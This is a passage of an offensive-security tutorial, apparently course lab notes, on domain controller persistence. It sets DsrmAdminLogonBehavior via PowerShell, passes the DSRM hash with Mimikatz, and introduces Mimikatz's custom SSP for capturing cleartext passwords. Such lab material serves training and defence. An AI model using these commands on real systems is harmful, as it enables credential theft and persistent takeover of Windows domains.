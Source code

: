 > If the NTML hash of the Administrator using the **/patch** is *diffrent* than the NTML hash of the Administrator using **DSRM dump** then it is the correct hash of the DSRM local Administrator
{: .prompt-tip }

### <span style="color:#F1C232">3. Add/Edit the Logon Behavior for the DSRM account</span>
 
Since it is the local administrator of the DC, we can pass the hash to authenticate.
But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash
```powershell
#Get a session as the DC
Enter-PSSession -Computername dcorp-dc

#check DSRM property
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"

#If DSRMAdminLognonBehariour attribute not created then create and set
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD -Verbose

#If already present but wrong value , then update
Set-ItemProperty -Name "DsrmAdminLogonBehavior" -Value 2
```

### <span style="color:#F1C232">4. Use below command to pass the hash</span>
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:dsrm-hash-goes-here /run:powershell.exe"'
```

### <span style="color:#F1C232">5. Now we can run commands on the DC</span>

```powershell
ls \\dcorp-dc\c$
```

# <span style="color:lightblue">Custom Security Support Provider (SSP)</span>

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are
* NTLM
* Kerberos
* Wdigest
* CredSSP

Mimikatz provides a custom SSP - mimilib.dll. The SSP logs start from the **next reboot** of the machine. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

## <span style="color:lightgreen">Mimikatz (How to setup the SSP)</span>
